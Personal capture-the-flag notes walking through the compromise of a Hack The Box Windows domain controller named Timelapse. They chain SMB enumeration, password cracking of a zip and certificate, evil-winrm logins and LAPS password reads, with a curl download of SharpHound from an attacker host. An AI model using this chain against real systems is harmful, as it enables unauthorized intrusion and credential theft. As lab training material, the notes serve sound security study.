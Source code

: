 `sudo nmap -sC -sV -oA nmap/timelapse 10.10.11.152`
`-sC for default scripts`
`-sV for enumerate all versions`
`-oA output all formats`

![[timelapse-nmap-scan.png]]
Notice host name is timelapse.htb -> add to `/etc/hosts`

Get domain name with #crackmapexec 
`crackmapexec smb 10.10.11.152`

![[Pasted image 20241222230651.png]]
name: DC01 -> add to `/etc/hosts` as well

![[timelapse-etc-hosts.png]]
Potentially dump users with crackmapexec (fail)

`crackmapexec smb 10.10.11.152 --users`

![[cme-dump-users-cmd.png]]
Potentially dump users & shares with crackmapexec (fail)

`crackmapexec smb 10.10.11.152 --shares --users`

![[dump-users-shares-cme-cmd.png]]

Potentially dump users & shares with crackmapexec w/ null authentication (fail)

`crackmapexec smb 10.10.11.152 -u '' -p '' --shares --users`

![[cme-cmd-null-authentication.png]]
Use #smbclient to list shares

**Remember to always try to enumerate things with two different tools to avoid missing stuff**

`smbclient -L //10.10.11.152/`

![[smbclient to list shares.png]]
/Shares is unique so let's enumerate that.

`smbclient //10.10.11.152/Shares`

Annd there is stuff in here. 

![[stuff-in-smb-shares-dir.png]]
`ls Dev/` to view contents of Dev folder and see `winrm_backup.zip` file

![[winrm-backup.zip.png]]

Download this file with `get Dev\winrm_backup.zip`

![[Pasted image 20241223203502.png]]

View contents of HelpDesk folder as well with `ls HelpDesk\`

![[Pasted image 20241223203556.png]]
Download these `LAPS` files which are standard Microsoft things. 

Running #exiftool on LAPS_OperationGuide.docx to try to grab a username. Nothing there. 

![[Pasted image 20241223203831.png]]
Run #exiftool on all documents and grep for user, name subsequently. 

`exiftool *.docx | grep -i user` (nothing)

![[Pasted image 20241223204044.png]]

`exiftool *.docx | grep -i name`

![[Pasted image 20241223204026.png]]
No username. 

Moving on to the `winrm_backup.zip`

Try to unzip with `unzip Dev\\winrm_backup.zip`

It is password protected. 

![[Pasted image 20241223204316.png]]
#johntheripper

Run #zip2john to convert the zip file to a hash for cracking basically. 

`./zip2john ~/Dev\\winrm_backup.zip >> /root/winrm_backup.hash`

![[zip2john-cmd.png]]

Now execute #john against this hash file with the `rockyou.txt` wordlist. 

`./john /root/winrm_backup.hash --wordlist==/opt/wordlist/rockyou.txt`

Password cracked as `supremelegacy`

![[john-output.png]]
Now use this password to unzip the file. 

`unzip Dev\\winrm_backup.zip`

Now we have a .pfx file which is a group of certificates 

![[zip-contents.png]]
View info in this `.pfx` file with #openssl 

`openssl pkcs12 -in legacyy_dev_auth.pfx -info`

Error message when prompted for password. 

![[openssl-cmd.png]]
Try cracking this password as well with #pfx2john 

`./pfx2john.py ~/legacyy_dev_auth.pfx >>~/legacyy_dev_auth.pfx.hash`

Now crack this hash with #john 

`./john ~/legacyy_dev_auth.pfx.hash --wordlist=/opt/wordlist/rockyou.txt

Password cracked as `thuglegacy`

![[Pasted image 20241223210005.png]]
Try to view the certificate again 

`openssl pkcs12 -in legacyy_dev_auth.pfx -info`

Enter `thuglegacy` when prompted

This is a Microsoft Software Key Storage Provider. 

We get the certificate and private key. 

Cert:
![[Pasted image 20241223210227.png]]
Extract these using #openssl to avoid any whitespace issues. 

Get the private key:
`openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes`

![[Pasted image 20241223210433.png]]

Get the cert:
`openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert`

![[Pasted image 20241223210632.png]]
Now we can use #evilwinrm 

but wait.. are the `winrm` ports even open?
Check with nmap
`sudo nmap -p5985-5986 10.10.11.152`

![[winrm-nmap-port-scan.png]]
Port 5986 is open which is #winrm with #ssl

`evil-winrm -S -i 10.10.11.152 -c key.cert -k key.pem`

Logged innnn.

![[login with private key and cert - winrm.png]]
`gci -force .` will show hidden files. 

Good to check PowerShell's #psreadline file for a privilege escalation vector. This is like PowerShell console host history

Full path is `C:\Users\legacyy\APPDATA\roaming\microsoft\windows\powershell\psreadline`

`dir`

Notice the `ConsoleHost_history.txt`

![[PS cmd history.png]]
Viewing contents of this file 

![[console-history-file.png]]
We get username: `svc_deploy` and password: `E3R$Q62^12p7PLlC%KWaxuaV`

Going back to #crackmapexec 

`crackmapexec smb 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'`

it does not say pw3ned!

![[cme-not-pwn3d.png]]

Then try authenticating using #evilwinrm 

`evil-winrm -S -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'`

![[evil-winrm-login.png]]
Enumerating with 

`gci -force .` to look for hidden files 
![[gci -force.png]]

Checking powershell history again but there is no powershell directory 

![[Pasted image 20241223224626.png]]
it is active directory, so maybe run #Bloodhound 

Download fresh SharpCollection #sharphound 

Serve it up with #pythonhttpserver 
`python3 -m http.server`

Download it with
`cd \programdata`
`curl 10.10.14.8:8000 /SharpHound.exe -o SharpHound.exe`

Execute it with `.\SharpHound.exe`

Windows Defender blocked it. 

Search for `bloodhound.py ingestor`

https://github.com/dirkjanm/BloodHound.py

Download this file. 

Running from Parrot box:

![[Pasted image 20241223230635.png]]
But....DNS operation is timing out. 

Trying manual enumeration.. 

`net user svc_deploy`

![[net user output.png]]

We're in the LAPS Readers group which can read LAPS passwords.

Running this `Get-ADComputer` command to get passwords
![[get-adcomputer.png]]

Here is a password for the local admin on the box:

`tZ+6(79c) ) ) oPW-#8J26]HV7`

![[Pasted image 20241223231413.png]]

Logging in with #evilwinrm as admin

![[admin-shell.png]]

Can also get the LAPS password using this python script

https://github.com/n00py/LAPSDumper


![[laps.py.png]]

then login with these 

